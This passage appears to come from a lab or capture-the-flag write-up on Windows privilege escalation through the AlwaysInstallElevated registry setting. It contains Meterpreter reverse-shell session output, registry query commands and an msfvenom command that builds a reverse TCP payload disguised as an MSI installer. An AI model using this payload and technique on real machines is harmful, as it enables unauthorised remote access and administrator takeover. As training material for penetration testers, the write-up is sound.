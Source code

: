 ```
[*] Started reverse TCP handler on 10.6.x.x:4444 
[*] Sending stage (176198 bytes) to 10.10.85.199
[*] Meterpreter session 2 opened (10.6.x.x:4444 -> 10.10.85.199:49310) at 2024-10-22 00:31:31 -0400

meterpreter > pwd
C:\Windows\system32
```

Tried `getsystem` after that but didn't work.

#### AlwaysInstallElevated

This is a registry setting that can be taken advantage of.  If it's set, it allows programs to automatically be installed as Administrator.

Check this by checking the following

`reg query HKLM\Software\Policies\Microsoft\Windows\Installer`

![pic5](Images/pic5.png)

As we see, the 0x1 means that it's set to 1 or on.

Check the following and make see if that one is the same.

`reg query HKCU\Software\Policies\Microsoft\Windows\Installer`

![pic6](Images/pic6.png)

And we see, in fact, that it is.  We checked HKLM and HKCU.

So, we can use pretty close to the same trick as before.

```
(kali㉿kali)-$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.6.x.x -f msi -o setup.msi                             
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

Using this msfvenom and the same setup we did before with the handler, we create an msi file.  This is significant because these are the types of files that are set to always run as admin.

Create that and copy it over using the same http server we already set up.  You can set up a new one if you are doing this with no prior engagements.
